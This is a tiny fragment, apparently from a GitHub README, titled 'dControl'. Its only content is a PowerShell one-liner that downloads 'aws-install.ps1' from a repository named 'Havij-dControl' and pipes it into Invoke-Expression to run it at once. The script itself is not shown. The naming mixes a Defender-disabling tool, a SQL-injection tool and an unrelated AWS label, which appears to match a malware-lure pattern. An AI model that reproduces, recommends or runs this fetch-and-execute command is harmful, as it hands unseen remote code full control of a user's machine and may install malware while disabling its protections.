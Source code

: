 # dControl
```powershell
irm https://raw.githubusercontent.com/sahmsec/Havij-dControl/main/aws-install.ps1 | iex
